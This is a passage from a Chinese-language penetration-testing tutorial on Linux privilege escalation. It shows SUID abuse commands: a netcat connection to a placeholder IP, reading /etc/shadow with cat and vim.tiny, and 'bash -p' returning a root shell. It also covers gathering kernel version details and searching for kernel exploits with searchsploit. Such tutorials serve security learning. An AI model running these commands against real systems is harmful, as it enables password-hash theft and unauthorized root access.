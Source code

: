 ```
netcat ip 5555
id
cat /etc/shadow

```

##### Vim  
  
Vim是Linux环境下的一款文件编辑器。但是，如果以SUID运行的话，它会继承root用户的权限，因此可以读取系统上的所有文件。  

```
vim.tiny /etc/shadow

```

##### Bash  
  
以下命令将以root权限打开一个bash shell。  

```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(serv

```

#### 2、内核漏洞提权  
  
tools:searchsploit 、Linux_Exploit_Suggester  
  
通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限，如在iis就是iis用户组权限，在  
  
apache就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信息，  
  
ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限超级管理员权限。  
##### 1. 内核溢出提权  
1. 内核漏洞是最有效的提权方法。通杀的内核漏洞是十分少见的，因而我们应该先对系统相关的信息进行收集， 再搜索对应的exp进行提权攻击  

```
//查看发行版本：这些命令作用都差不多，获取一些信息
cat /etc/issue
cat /etc/*-release
cat /etc/redhat-release
cat /proc/version
lsb_release -a
//查看内核版本
uname -a

```

  
1. 利用kali自带的 searchsploit 来搜索对应版本的exp（也可以直接去官网找）：  

```
searchspoit 发行版本内核版本
searchsploit -t Ubuntu 16.04  //-t仅搜索漏洞标题
searchsploit -s Ubuntu 16.04  //
searchsploit -s Linux Kernel 4.15.0

```

